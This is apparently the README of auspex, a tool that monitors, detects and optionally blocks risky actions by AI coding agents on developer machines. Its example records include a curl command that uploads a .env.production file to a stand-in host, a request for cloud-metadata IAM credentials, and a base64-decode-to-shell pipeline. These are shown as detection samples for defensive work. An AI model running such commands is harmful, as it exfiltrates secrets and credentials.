








# auspex

**Endpoint visibility into AI agent activity, with local detection, optional pre-action blocking, and forensic reconstruction.**

[](https://go.dev)
[](LICENSE)
[](#install)
[](docs/schema/v0.2.0/)

---

## What this project is

AI coding agents now run shell commands, read and write files, reach the network, and invoke MCP servers on developer workstations and CI runners. They do this continuously, semi-autonomously, and largely without leaving anything a security team can read. Each vendor persists its own session format, exposes its own hook contract, and answers to no shared schema. The result is a growing class of privileged activity on the endpoint that conventional EDR does not model and conventional log pipelines never receive.

**auspex is an endpoint sensor for that activity.** It attaches to the agents already installed on a machine, converts everything they do into one normalized event vocabulary, evaluates that stream against a local rule engine, and emits structured records an operator can alert on, investigate, and hand off.

It answers four questions:

| Question | Mechanism |
| --- | --- |
| What are the agents on this endpoint doing right now? | Synchronous hooks and generated plugins across 25 blocking-capable agents, plus an OTLP/HTTP receiver |
| What did they already do, before anyone was watching? | Read-only reconstruction from 11 parser-backed on-disk session stores, with no prior instrumentation |
| Which of those actions should someone look at? | 51 shipped CEL rules across 12 categories, including 6 multi-step sequence chains |
| Can a specific action be stopped before it executes? | Opt-in enforce mode returning each host's native deny response at its pre-action gate |

Three properties define the design. **Detection runs entirely on the endpoint** — no cloud dependency, no telemetry egress except to sinks the operator configures. **Every capture surface converges on one event model and one rule engine**, so a finding is identical whether it came from a live hook or a six-month-old transcript. **Monitoring and blocking are separated** — everything ships monitor-only, and blocking requires an explicit per-rule opt-in.

---

## Architecture

The system is a six-stage pipeline. Three dissimilar capture surfaces fan into a single normalization stage; everything downstream of that point is source-agnostic.



The critical structural property is the convergence at normalization. A rule author writes one CEL expression; it applies to a live Codex hook payload, a Gemini OTLP log record, and a Claude Code transcript from last quarter without modification.

---

## How it works

### 1. Capture — three surfaces, different guarantees

The surfaces are not interchangeable. They differ in latency, completeness, and whether they can intervene.



Only the synchronous hook path can intervene, and only at a host that exposes a genuine pre-action gate. The other two surfaces are strictly observational. At-rest reconstruction is bounded by what the agent chose to persist — it is not disk or memory acquisition, and it cannot recover an action the agent never wrote down.

### 2. Normalization — a deliberately narrow classifier

Every source is mapped into a closed vocabulary. The classifier is conservative by design: it promotes an action to a specific type only when the source's own structured fields support it, and never infers intent from prose, command output, or free-form previews.



These types are alternatives, not layers — a recognized shell request becomes `command.exec`, not an additional `tool.call`. The `tool.call` fallback exists to preserve visibility when a safe specific mapping is unavailable, rather than guessing. A `confidence` field records how directly the source supported the mapping.

Command events also carry an `opacity_score` and the `opacity_reasons` behind it, so one layer of wrapping — `bash -c "base64 -d p | sh"` — reports as 3 rather than as a single opaque string. A score of `0` is a real claim that auspex parsed the command and saw everything it does; a command it could not read carries **no score at all**, because emitting `0` there would fabricate a completeness auspex never had. See the [event model](docs/event-model.md) for the marker list.

### 3. Detection — one pass per event, with a fail-safe decision channel

Every sensor feeds `pipeline.Process`, which handles exactly one normalized event. Rule evaluation and enforcement authorization are deliberately decoupled: an unrelated rule erroring out does not invalidate a clean match, but any failure to *emit* a record does.



The taint rule is the safety property worth understanding: **a deny must never outrun its operator record.** If any finding fails to emit during the run, the enforcement decision is poisoned and cannot be restored by a later clean event. auspex would rather let an action through than block it silently and leave no auditable trace of why.

Note also that the enforcement channel is uncapped while detection findings are subject to `max_matches` — a finding quota can never become a policy bypass.

### 4. Enforcement — the host remains the enforcement point

auspex never executes or cancels a tool itself. It answers a question the host asked, and the host decides what to do with the answer.



The deny is generic by design — rule identifiers and evidence stay out of the control channel returned to the agent, though the decision itself is not concealed. Blocking is available only where a host publishes a genuine synchronous pre-action contract; 25 of the 27 supported surfaces qualify.

The state machine below is the whole enforcement authorization model:



Enabling `--enforce` on a hook is not sufficient on its own. The shipped catalog is entirely monitor-only, and an enforce-mode install refuses to proceed unless at least one enabled rule actually sets `enforce: true`. Turning a shipped detection into a block is a deliberate act: copy its complete YAML into a controlled operator directory, keep the id, add the flag, and bump the version.

### 5. Rules — CEL expressions over the normalized event

The shipped catalog is 51 rules across 12 behavioral categories. Six of them are sequence rules that correlate multiple events within a session rather than matching a single action.

```mermaid
flowchart LR
    subgraph CAT["SHIPPED CATALOG — 51 rules"]
        direction TB
        C1["secrets — 8"]
        C2["exec — 6"]
        C3["persistence — 6"]
        C4["privilege — 6"]
        C5["chains — 6"]
        C6["exfil — 4"]
        C7["impact — 4"]
        C8["recon — 3"]
        C9["tamper — 3"]
        C10["integrity — 2"]
        C11["source_control — 2"]
        C12["lateral — 1"]
    end

    subgraph EVALK["EVALUATION"]
        direction TB
        SINGLE["Single-event rules<br/>one CEL expression<br/>over one normalized event"]
        CHAIN["Sequence rules<br/>ordered steps correlated<br/>within one session"]
    end

    subgraph OVERRIDE["OPERATOR CONTROL"]
        direction TB
        ADD["--rules-dir DIR<br/>add operator rules"]
        REPL["same id replaces the<br/>embedded rule entirely"]
        ONLY["--no-builtin-rules<br/>operator-only catalog"]
    end

    CAT --> EVALK
    EVALK --> OVERRIDE

    classDef cats fill:#fef3c7,stroke:#d97706,stroke-width:2px,color:#78350f
    classDef evalc fill:#ede9fe,stroke:#7c3aed,stroke-width:2px,color:#4c1d95
    classDef ops fill:#cffafe,stroke:#0891b2,stroke-width:2px,color:#164e63

    class C1,C2,C3,C4,C5,C6,C7,C8,C9,C10,C11,C12 cats
    class SINGLE,CHAIN evalc
    class ADD,REPL,ONLY ops
```



Rules match against parsed structure, not raw text. A rule can read `event.command` directly, but the parsed `shell_commands` view is preferred when a decision depends on executable semantics — raw input can contain comments, quoted examples, and other text a shell would never run. When a *block* derives from `shell_commands`, auspex narrows to a much smaller statically-analyzable subset: one simple command or pipeline, static arguments only, and no substitutions, conditionals, loops, `eval`, or inline interpreters.

### 6. Records and investigation

Everything auspex observes leaves as versioned NDJSON. Six record types share one envelope and one schema version.



A `case.auspex` bundle is the handoff artifact: the case's findings, the events their `cited_event_ids` name, any case-scoped enforcement decisions, and a `manifest.json` of per-file SHA-256 digests. Identical ordered inputs produce identical record files. Evidence entries carry separate hashes for the source bytes and the stored bytes, so a redacted copy can never be mistaken for the original artifact.

The manifest establishes internal consistency, not authenticity. An unsigned bundle does not prove where it came from or that it is complete.

---

## Internal structure

Packages form a strict acyclic layering, enforced in CI by `internal/archguard`. Arrows point from a package to the packages it imports.



`internal/model` is the keystone: it defines the event vocabulary every other package agrees on, and depends on nothing but platform primitives.

---

## Quick start

### Install

[Download a release](https://github.com/Sri-Krishna-V/auspex/releases) for macOS, Linux,
or Windows on amd64 or arm64. Each release includes SHA-256 checksums. You can
also install with Go 1.26.5 or newer:

```sh
go install github.com/Sri-Krishna-V/auspex/cmd/auspex@latest
```

<details>
<summary>Build a static binary from a checkout</summary>

macOS or Linux:

```sh
CGO_ENABLED=0 go build -trimpath -o auspex ./cmd/auspex
```

Windows PowerShell:

```powershell
$env:CGO_ENABLED = "0"
go build -trimpath -o auspex.exe ./cmd/auspex
```

</details>

### Inventory and scan

These read-only commands do not install hooks or change agent configuration:

```sh
auspex agents
# scan all discovered parser-backed agents
auspex scan
# or limit automatic discovery to Codex
auspex scan --agent codex
```

`auspex agents` reports a `WIRED` column read from configuration and an
`OBSERVED` column read from auspex's own execution record: the last time a hook
callback actually ran for that agent on this machine. `never` means no hook
execution was recorded here — not that the agent never ran, and not that
nothing happened. Agents seen only by at-rest scanning never stamp the column,
so `wired: yes` with `observed: never` is a normal reading for an agent that
has not been used since the hook was installed.

### Monitor and enforce

Install live monitoring for any agent with
[live-capture support](docs/agent-coverage.md#matrix); the commands below use
Codex as a concrete example. Hooks start in monitor-only mode. `--emit all`
writes events, findings, indicators, and applicable enforcement decisions to
`~/.auspex/records.ndjson`.

```sh
auspex hook install --agent codex --emit all
auspex hook status --agent codex
```

> **Hook trust:** Requirements vary by agent and scope. For the Codex user hook
> above, review and trust its current definition in `/hooks` (CLI) or
> Settings > Hooks (app), including after changes such as `--enforce`. Codex
> hooks installed with `--managed` are trusted by policy. `hook status` verifies
> configuration, not execution or delivery. See the
> [deployment guide](docs/deployment.md#hook-trust-and-activation) for other
> agents and scopes.

All shipped rules are monitor-only. To enforce a detection, copy its complete
[shipped YAML](rules/) into a controlled operator directory, keep the same id,
add `enforce: true`, and bump its version. Validate and install that effective
policy for a supported pre-action hook:

```sh
auspex rules check --rules-dir ./auspex-policy
auspex hook install --agent codex --emit all \
  --rules-dir ./auspex-policy --enforce
```

---

## Example output

<details>
<summary><strong>Hook event</strong> (OpenClaw cloud-metadata browser request)</summary>

A controlled OpenClaw `before_tool_call` callback passed through auspex's
generated plugin becomes a typed network event with its proposed destination
and execution context. It also matches the high-severity cloud-metadata rule.

```json
{
  "actor": "assistant",
  "confidence": "medium",
  "content_preview": "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
  "endpoint": {
    "hostname": "developer-workstation", "os": "linux", "arch": "arm64",
    "username": "node", "uid": "1000"
  },
  "event_id": "hook-run-20260724T151125.690671167-fa0a4148090fa1ba",
  "event_type": "network.indicator",
  "evidence": {"artifact_type": "hook"},
  "project_path": "/workspace/acme-api",
  "record_type": "event",
  "run_id": "run-20260724T151125.690671167-fa0a4148090fa1ba",
  "schema_version": "0.2.0",
  "session_id": "agent:research:metadata-review",
  "source_agent": "openclaw",
  "source_type": "hook",
  "sub_agent": "research",
  "tags": ["network"],
  "timestamp": "2026-07-24T15:20:00Z",
  "tool_call_id": "tool-cloud-metadata-01",
  "tool_name": "browser",
  "url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"
}
```

</details>

<details>
<summary><strong>Sequence finding</strong> (Claude Code hook sequence)</summary>

A controlled replay of two contract-valid Claude Code pre-action callbacks in
one session—secret-file access, then a proposed upload—produced this finding.
The rule also runs during artifact scans; the finding does not prove either
action completed.

```json
{
  "cited_event_ids": [
    "hook-run-20260724T143947.587655000-2030b2e550b19261",
    "hook-run-20260724T144025.562634000-e18f9d375ddb1c1b"
  ],
  "confidence": "medium",
  "detected_at": "2026-07-24T14:40:29.226642Z",
  "endpoint": {
    "hostname": "developer-workstation", "os": "linux", "arch": "arm64",
    "username": "agent", "uid": "10001"
  },
  "evidence_refs": [
    {"artifact_type": "hook"},
    {"artifact_type": "hook"}
  ],
  "finding_id": "fnd-01be6f0c659d060e7c993a73",
  "observed_actor": "assistant",
  "observed_command": "curl --data-binary @/workspace/acme-api/.env.production https://collector.example.invalid/ingest",
  "observed_event_type": "command.exec",
  "project_path_hash": "sha256:6780eeb53603bd5da1c0ec3e25d9e94d8be668392f24def8903a2a34f8e3fcb0",
  "record_type": "finding",
  "redacted": false,
  "rule_id": "chain.secret_read_then_egress",
  "rule_version": "1.4",
  "run_id": "run-20260724T144025.562634000-e18f9d375ddb1c1b",
  "schema_version": "0.2.0",
  "session_id": "readme-live-sequence-01",
  "severity": "high",
  "source_agent": "claude-code",
  "source_type": "hook",
  "tags": ["attack.t1048", "attack.t1552", "attack.t1567"],
  "timestamp": "2026-07-24T14:40:25.562634Z",
  "title": "Secret-file access followed by data-bearing egress"
}
```

</details>

<details>
<summary><strong>Enforcement decision</strong> (Codex <code>authorized_keys</code> write)</summary>

With a same-id operator replacement of `persistence.ssh_authorized_keys`
marked `enforce: true` at version `1.3`, a Codex `create_file` pre-action
matched the rule and auspex selected the agent-specific deny response. See
[Decisions](docs/enforcement.md#decisions) for delivery and enforcement semantics.

```json
{
  "action_event_ids": [
    "hook-run-20260724T134723.452402000-6886c86cefad57b8"
  ],
  "decision": "deny",
  "decision_id": "enf-5132cfdb6ae4d57350ec734d",
  "deny_rule_id": "persistence.ssh_authorized_keys",
  "deny_rule_version": "1.3",
  "endpoint": {
    "hostname": "developer-workstation", "os": "linux", "arch": "arm64",
    "username": "agent", "uid": "10001"
  },
  "finding_ids": [
    "fnd-f467992648daec0a927b6de7"
  ],
  "mode": "enforce",
  "model": "gpt-5.6-codex",
  "reason": "enforce_rule_match",
  "record_type": "enforcement",
  "rule_ids": [
    "persistence.ssh_authorized_keys"
  ],
  "run_id": "run-20260724T134723.452402000-6886c86cefad57b8",
  "schema_version": "0.2.0",
  "session_id": "sess-doc-codex-enforce-01",
  "source_agent": "codex",
  "source_type": "hook",
  "timestamp": "2026-07-24T13:47:23.502411Z",
  "tool_call_id": "tool-doc-codex-enforce-01",
  "tool_name": "create_file"
}
```

</details>

See the [built-in rule catalog](docs/rule-catalog.md) for other
detected behaviors.

The [CLI reference](docs/cli.md#the-record-stream) defines the complete record
contract, flags, and sinks. For rollout patterns and output durability, see
[docs/deployment.md](docs/deployment.md).

---

## Command overview

| Group | Commands | Purpose |
| --- | --- | --- |
| Inventory and investigation | `agents`, `scan`, `timeline` | Read-only discovery, artifact scanning, session reconstruction |
| Live capture | `hook install`, `hook status`, `hook uninstall`, `collect` | Wire and inspect hooks; run the OTLP receiver |
| Record delivery | `ship` | Tail an NDJSON file and forward batches over HTTP |
| Rule development | `rules check`, `rules list`, `rules test` | Validate, enumerate, and test the effective catalog |
| Case bundles | `case build`, `case verify` | Curate and integrity-check a portable handoff |

Run `auspex --help` for the complete command list or
`auspex help <command>` for flags. See the [CLI reference](docs/cli.md) for
record modes, sinks, and exit codes.

`scan`, `collect`, `hook EVENT`, `hook install`, and `rules check|list|test`
accept `--rules-dir DIR` (repeatable) to add operator rules or replace embedded
rules by id.
Use `--no-builtin-rules` for an operator-only catalog. A replacement is never
silent: the run warns with the replaced ids, and every record carries a
`ruleset_digest` over the rule files that actually loaded, so a swapped catalog
is visible on the wire instead of looking like a healthy endpoint. Full flag and
output reference: [docs/cli.md](docs/cli.md).

---

## Documentation

- [Agent coverage](docs/agent-coverage.md): supported artifacts, live capture,
  enforcement, and known gaps.
- [Event model](docs/event-model.md): normalization, action types, correlation,
  and MCP fields.
- [CLI reference](docs/cli.md): commands, flags, records, sinks, and exit codes.
- [Live capture](docs/live-capture.md): hook and OTLP setup.
- [Deployment](docs/deployment.md): install scope, trust, fleet rollout, and
  output delivery.
- [Enforcement](docs/enforcement.md): blocking semantics and failure behavior.
- [Rules](docs/rules.md): custom rule format, CEL fields, tests, and sequences.
- [Built-in rules](docs/rule-catalog.md): shipped detection coverage.
- [Record schemas](docs/schema/v0.2.0/): JSON Schemas for the current wire format.

---

## Scope and limits

The [coverage matrix](docs/agent-coverage.md) documents support and known gaps
per agent, including deferred stores, fidelity limits, and root overrides.
Native Windows uses vendor-defined profile and AppData paths; WSL uses a
separate Linux home. auspex never executes agents or commands found in
artifacts, and it makes outbound requests only to configured HTTP sinks.

At-rest reconstruction is not disk or memory acquisition and cannot recover
activity an agent did not persist. Findings are rule matches, not proof of
compromise. Case-bundle manifests establish internal consistency; unsigned
bundles do not prove source authenticity or completeness.

## Security

Records can retain sensitive endpoint and agent context after redaction. See
[SECURITY.md](SECURITY.md) for the threat model and private vulnerability
reporting.

## Contributing

See [CONTRIBUTING.md](CONTRIBUTING.md) for the development workflow, CI gates,
and architecture constraints.

## License

Apache License 2.0. See [LICENSE](LICENSE).
